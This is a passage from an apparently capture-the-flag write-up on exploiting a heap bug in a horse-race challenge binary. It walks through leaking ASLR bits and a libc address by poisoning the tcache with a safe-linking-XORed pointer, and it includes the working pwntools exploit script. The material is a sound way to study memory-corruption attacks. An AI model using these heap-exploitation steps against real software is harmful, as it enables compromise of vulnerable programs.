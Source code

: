 So, when any of these horses win, the pointer to their name, which points to the next pointer which contains the ASLR bits, is 
printed after the word WINNER. It is also important that these horses are allocated, because if they are not they do not count in the race (recall
how remove_horse sets the pointer to zero, and that horses only participate in the racee if their respective pointer is non-zero).

Lastly, I'm removing horses 0 and 1 in preperation for what I am about to do next...

### Leaking LIBC

Now we get to be a dirty cheater and get away with it. An address in LIBC can be leaked, and the base address of LIBC can be calculated
as follows:

```
add_horse(0, 256, b'i' * 256)
add_horse(1, 256, b'i' * 256)

remove_horse(1)
remove_horse(0)

cheat(0, p64(0x4040E0 ^ aslr) + b'\xFF', 0)

add_horse(0, 256, b'\x00' * 256)
add_horse(1, 256, b'\xFF')

leak = aslr
while leak == aslr or leak == 0:
┊   race()
┊   p.recvuntil(b'WINNER: ')
┊   leak = int.from_bytes(p.recvuntil(b'\n').replace(b'\n', b''), 'little')
libc_base = leak - 0x1BE5E0
print("Libc base: " + hex(libc_base))
```

Output:

![image](https://user-images.githubusercontent.com/96510931/228106106-e3b8fed0-da3c-4c6d-b75b-41882caa12b5.png)


Looks promising once again. Because I added horse 0 and 1 then removed them both immediately after, they enter the tcache. Next, I
use the cheat option to overwrite the next pointer. Note, because of the safe-linking pointer jumbling, the address we want to overwrite needs
to be XORed with the ASLR bits leaked earlier. 

After I re-add horse 1, we're given an allocation at 0x4040E0. I chose to place this allocation at 0x4040E0 for a few reasons. In the following
screenshot, I was able to attach to the process in GDB and inspect the return value in $rax immediately after returning from the malloc call
which gives us the allocation at 0x4040E0 to help me explain why.

![image](https://user-images.githubusercontent.com/96510931/228103248-5761dbe4-b83e-4429-812f-3aab8b74e530.png)

